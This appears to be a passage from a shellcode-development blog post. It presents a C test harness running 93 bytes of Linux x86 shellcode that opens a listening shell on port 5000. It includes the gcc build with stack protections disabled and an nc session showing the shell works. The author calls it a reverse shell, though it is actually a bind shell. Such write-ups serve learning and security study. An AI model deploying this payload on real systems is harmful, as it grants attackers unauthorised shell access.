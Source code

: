 {{< highlight C >}}
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xff\xb3\x02\xfe\xc1\x66\xb8\x67\x01\xcd\x80\x97\x52\x66\x68\x13"\
"\x88\x66\x53\x89\xe1\x87\xdf\xb2\x10\x66\xb8\x69\x01\xcd\x80\x87\xca\x66\xb8\x6b\x01\xcd\x80\x31\xc9"\
"\x31\xf6\x66\xb8\x6c\x01\xcd\x80\x93\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc0\x50\x68\x6e\x2f\x73"\
"\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

int main()
{

          printf("Shellcode Length:  %d\n", strlen(code));

                  int (*ret)() = (int(*)())code;

                          ret();

}
{{< / highlight >}}

Lets run it
```
  $ gcc -o shell_test -fno-stack-protector -z execstack -m32 shell_test.c
  $ ./shell_test
Shellcode Length: 93

```
And now on another shell
```
  $ nc localhost 5000
ls
bind
bind.o
bind_shell
bind_shell.c
bind_shell.x86asm
shell_test.c
shell_test

```
Great our reverse shell works and in 93 bytes which is not bad but I have found
shellcode on shell-storm which does this extact function in 89 bytes. I may work
on this to get it smaller but I think this is good enough for now.

Note: I had gotten this down to 87 bytes when running as a straight assembly
program however when running in the C skeleton a few things became apparent and
I needed to modify my code these were

1. I had to xor EDI as it was not 0x0 by the time my code go executed
2. I had to re xor eax in the execve code as this was not 0 by the time my code
got executed
